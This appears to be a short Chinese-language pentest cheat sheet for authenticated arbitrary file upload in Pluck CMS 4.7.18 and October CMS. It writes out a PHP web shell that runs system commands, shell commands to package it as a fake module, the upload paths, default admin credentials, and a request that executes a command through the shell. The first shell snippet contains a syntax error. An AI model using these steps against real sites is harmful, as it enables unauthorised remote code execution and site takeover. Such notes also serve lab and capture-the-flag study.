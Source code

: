 ### Pluck CMS v.4.7.18 - `经过验证的` 任意文件上传
- cmd.php
```php
<?php system($_REQUEST('cmd')); ?>
```

```bash
mkdir shell
mv cmd.php shell
zip -r shell.zip shell/
```

options > manage modules > Install a module...
上传刚刚压缩的 shell.zip 后
在 `http://IP/data/modules/` 中应该可以找到 shell 文件夹，里面就是我们之前创建的文件


### October CMS
**默认登录 URL**
```
http://IP/backend/backend/auth/signin
```

**默认登录密码**
```
admin:admin
```


**任意文件上传 EXP**
https://0xdf.gitlab.io/2019/03/26/htb-october.html
- cmd.php5
```php
<?php system($_REQUEST['cmd']); ?>
```

```
http://IP/storage/app/media/cmd.php5?cmd=id
```